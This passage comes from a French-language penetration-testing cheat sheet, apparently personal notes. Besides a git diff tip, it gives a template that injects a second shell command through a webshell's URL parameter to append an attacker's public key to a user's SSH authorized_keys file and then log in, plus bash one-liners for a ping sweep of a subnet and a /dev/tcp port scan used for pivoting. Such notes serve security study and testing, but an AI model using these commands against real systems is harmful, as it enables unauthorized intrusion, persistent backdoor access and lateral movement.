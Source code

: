 Faire un diff sur les différents commit d'un dossier Git : 

```bash
git diff HEAD~<Number>
```
---
Avoir un webshell -> reverse shell :

```bash
curl -H "<Header>" "<url>" -G --data-urlencode "...;mkdir -p /home/<user>/.ssh; echo <clé pub> >> /home/<user>/.ssh/authorized_keys"
ssh -i <clé privée> <user>@<ip>
```
---

## 16) Pivoting 

Commande bash pour scan les IPs disponible :

```bash
for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done
```

Commande bash pour scan les ports ouverts :

```bash
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```